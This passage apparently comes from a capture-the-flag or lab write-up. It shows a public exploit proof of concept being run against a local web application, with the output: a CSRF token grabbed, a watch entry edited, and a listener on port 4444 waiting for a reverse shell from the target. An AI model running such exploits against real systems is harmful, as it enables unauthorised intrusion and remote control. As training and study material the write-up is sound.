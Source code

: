 We're now ready to run the exploit PoC:
```shell
❯ python 52027.py --url http://localhost:5000/ --port 4444 --ip 10.10.14.235 --notification "gets://10.10.14.235:8181/"
Obtained CSRF token: ImZhZjIwZTYxNWI4Y2QxYzEyYjgzNzFiYTdiODFmOWQxYWVlNTZiMzUi.Z46m4g.42HUmzp5VNU_dVanYaLFAVYmZhU
Redirect URL: /edit/82209419-79a7-4127-882b-cfc74d43fd6d?unpause_on_save=1
Final request made.
[+] Trying to bind to :: on port 4444: Done
[.......\] Waiting for connections on :::4444
Listening on port 4444...
```

We can see the entry created a new detection watch entry: